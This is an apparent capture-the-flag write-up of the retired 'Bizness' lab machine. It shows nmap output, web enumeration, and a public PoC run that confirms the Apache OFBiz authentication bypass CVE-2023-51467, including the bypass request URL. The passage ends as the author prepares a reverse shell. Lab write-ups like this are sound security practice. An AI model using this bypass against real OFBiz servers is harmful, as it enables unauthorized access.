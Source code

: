 # Bizness
Attempting another easy retired box to get familiar/practice.

Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Retired
- TARGET=10.10.11.252
- HOST=my IP

## Recon
Start off with an nmap scan.
`sudo nmap -p- -sC -sV $TARGET --open`

Results from initial nmap scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 15:37 CST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.061s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: BizNess Incorporated
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
46103/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.89 seconds
```

when I navigate to the site, I notice the request is rejected due to lack of domain name.
So I go to my `/etc/hosts` and add an entry for the target.
```

10.10.11.252 bizness.htb
```
Looks like another server with nginx. I might be able to use the same vulnerability as `Broker` to get the root flag.

### Dirbuster
Since I'm not sure what is available on this server. I ran `dirbuster`.

From the results I was able to find some directories such as `/accounting` that redirects me to here: `https://bizness.htb/accounting/control/main`

### SQL Injection?
I tried to use sqlmap against the form with no success. Trying some manual payloads also proved to be unsuccessful.

### [CVE-2023-51467](https://nvd.nist.gov/vuln/detail/CVE-2023-51467)
After doing some googling, I realized this box has a potential vulnerability with OFBiz.

I was able to confirm using this PoC: https://github.com/K3ysTr0K3R/CVE-2023-51467-EXPLOIT (thank you K3ysTr0K3R).

```
python CVE-2023-51467.py -u https://bizness.htb
  _______      ________    ___   ___ ___  ____        _____ __ _  _     ________
 / ____\ \    / /  ____|  |__ \ / _ \__ \|___ \      | ____/_ | || |   / /____  |
| |     \ \  / /| |__ ______ ) | | | | ) | __) |_____| |__  | | || |_ / /_   / /
| |      \ \/ / |  __|______/ /| | | |/ / |__ <______|___ \ | |__   _|  _ \ / /
| |____   \  /  | |____    / /_| |_| / /_ ___) |      ___) || |  | | | (_) / /
 \_____|   \/   |______|  |____|\___/____|____/      |____/ |_|  |_|  \___/_/

Coded By: K3ysTr0K3R

[+] https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y - is vulnerable to
CVE-2023-51467
```
So now that I have a major vulnerability, I need to set it up to execute a reverse shell.
